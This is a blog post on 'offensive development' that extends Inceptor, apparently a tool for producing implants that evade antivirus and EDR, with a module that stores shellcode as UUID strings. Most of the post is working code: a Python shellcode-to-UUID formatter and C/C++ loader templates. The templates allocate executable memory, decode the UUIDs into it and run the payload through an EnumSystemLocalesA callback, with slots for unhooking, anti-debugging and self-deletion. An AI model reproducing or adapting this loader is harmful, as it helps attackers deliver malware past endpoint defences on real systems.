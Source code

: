 ```yaml
---
title: "Offensive Development - Implementing Shellcode Retrieval"
date: 2021-11-19 01:55:55 +0100
categories: [Offensive Development, Windows]
tags: [shellcode, embedding, retrieval]     # TAG names should always be lowercase
---
```


# Implementing Shellcode Retrieval

Recently, I developed a PoC AV/EDR Framework, called [Inceptor][1]. More information about the tool can
be found in the repository itself, and in the accompanying [blog post](../../AV_Evasion/CodeExeNewDotNet/).

What is important to know, is that Inceptor is a tool which can help to automate the process of developing 
implants which can automatically bypass common AV and EDR solutions. By default, Inceptor embeds
shellcode or PE (transformed into shellcode) within wrappers (or "templates"), which are designed to
load and execute them. Templates are editable, but till now the shellcode was always embedded very crudely 
within the template, in the form of a byte array.

A very easy example is provided below:

```cpp
// Shellcode embedded in the template
const unsigned char raw[] = "####SHELLCODE####";
int length = sizeof(raw);
// Allocate RWX space for the shellcode
VOID* mem = VirtualAlloc(NULL, length, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
bool success = false;
// Copy shellcode in memory 
success = memcpy(mem, raw, length);
// Function pointer to the start of the shellcode
int (*my_main)() = (int(*)()) ((ULONGLONG)mem);
// Execution
my_main();
```

This example serves just as a PoC. As such, we are not considering issues as having a RWX region of memory, 
lack of error handling, direct use of Windows APIs (which can be hooked), etc.

The issue we are interested in, for the scope of this post, is having the shellcode embedded as a byte array. 
Indeed, having large binary blob can be suspicious if the program is statically reversed. In some cases, as
with C# payloads, this can be really easily spotted, even with strong obfuscation in place.

Moreover, as observable in other researches, like [Lazarus-Shellcode-Execution](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) by 
NCC Group, some forms of injection may use a special format, requiring the binary blob to further transformed.

However, so far, the shellcode format couldn't really be modified at all in Inceptor, which really limited 
the possibility of having other formats or retrieval mechanisms.

## The Shellcode Retrieval Module

In Inceptor, a user could already add or extend the tool functionality by adding or modifying a template or
a module. A module can be thought as a pluggable set of functionalities which can be added to a template.
Modules themselves are based on templates, which can be adapted, changed, or added, to provide the maximum 
level of customisation.

Based on this model, I thought it could be nice and easy to implement the shellcode embedding process as
a module itself. This is how it works:

![image](../imgs/blog/003AVEvasion/srm.png)

As observable from the image, the logic is pretty simple. The `IShellcodeRetrievalModule` and 
`ShellcodeRetrievalModule` abstract classes act as the main interfaces for shellcode retrieval mechanisms. 
Actually, the `ShellcodeRetrievalModule` abstract class provides a genera logic for all modules which just performs operations
on the shellcode, while the `IShellcodeRetrievalModule` abstract class provides an empty interface for all 
Shellcode retrieval mechanisms which are too specialised to be generalised.

Important to note that with this logic, at least a shellcode retrieval module needs to be loaded. If no
SRM are detected, Inceptor will indeed load the `BlobShellcodeRetrievalModule` by default.

Every SRM module, by itself, wraps a function which returns the shellcode which needs to be loaded in memory.
The function is compiled with the shellcode (or other mechanism) within a `.lib` file, along with a 
header file with the function declaration. The Library is then linked to the final payload. 
The function symbol is known at Linking time thanks to header previously generated.

## Implementing UUID Shellcode Execute

Implemented the general SRM, it is possible to implement a specific shellcode retrieval mechanism.
The first test case was indeed the UUID-ShellExecute. This kind of mechanism is ideal because it doesn't 
change the general concept of shellcode embedding (the shellcode is indeed still embedded in the payload)
but changes its format from a bytearray to a sequence of UUID strings.

As `ShellcodeRetrievalModule` already implements the logic behind the header creation and library compilation,
the only thing needed to implement is the shellcode formatting. To do that, all ShellcodeRetrievalModule 
implementations must implement the `craft()` method.

We can borrow and adapt one of the Python implementations available on internet, such as the one by [Boku7](https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py) 
or the one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/shellcodeToUUID.py).

The final implementation of craft would be the following:
```python
def craft(self, shellcode, language) -> (str, list, str):
    Console.warn_line("[WARNING] This module is only supported by 'uuid' based templates")
    Console.warn_line("[WARNING] This module is not compatible with LD encoders")
    data = shellcode
    if isinstance(shellcode, str):
        data = unhexlify(shellcode)
    if len(data) % 16 != 0:
        padding = b"\x90" * (16 - (len(data) % 16))
        data += padding
    uuids = []
    for i in range(0, len(data), 16):
        uuid_string = str(uuid.UUID(bytes_le=data[i:i + 16]))
        uuids.append(f'"{uuid_string}"')
    self.uuids = ",\n".join(uuids)
    self.shellcode_length = len(uuids)
    if language == Language.POWERSHELL:
        raise ModuleNotCompatibleException

    if language == Language.CSHARP:
        return "string[]", [], self.uuids
    elif language == Language.CPP:
        return "char**", [], self.uuids
```

The return tuple would be the triple `(return_type, [list of arguments], formatted_shellcode)`. Each of
the unpacked values would be then used to modify a function template similar to the following:

```
####RETURN_TYPE#### myFunction(####ARGS####){
    char* uuids[] = {
        ####SHELLLCODE####
    }
    ...
}
```

Although arguments substitution is mainly still a work in progress and far from being stable, this
substitution pattern has proven to offer good customization / stability tradeoff. 

Finally, it's necessary to implement a template supporting UUID-Shellcode Execution. For this task,
we can easily borrow an existing implementation, as the C++ by [NCC Group](https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014/)
and the C# one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/USEConsole/Program.cs), which is using D/Invoke. 

The final template would be similar to the following>

```c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
//####USING####

//####DEFINE####

#pragma comment(lib, "Rpcrt4.lib")


int main()
{

    //####DELAY####
    //####SELF_DELETE####
    //####UNHOOK####
    //####ANTIDEBUG####

    char** uuids = ####SHELLCODE####;
    int elems = ####SHELLCODE_LENGTH####;

    VOID* ha = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr = (DWORD_PTR)ha;

    for (int i = 0; i < elems; i++) {
        printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
        printf("%s\n", *(uuids+i));
        RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("[-] Something went wrong\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }

    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
```

And finally testing it using the following command line:

```
python inceptor.py native tests\calc64.raw -o uuid-shellexec.exe -m uuid_shellcode_retrieval
```

And it worked! 

![Calc](../imgs/blog/003AVEvasion/calc.png)

Of course, this is just the start of the game. Now, that is possible to implement arbitrary methods to
retrieve the shellcode, it's a matter of time to come up with new, creative ways to hide and retrieve 
our code. In another post, I'll cover how it's possible to leverage the SRM interface to load payloads 
embedded as a local resource or ICON file (technique borrowed from Sektor7). 

## References

* [RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)

[1]: https://github.com/klezVirus/inceptor.git
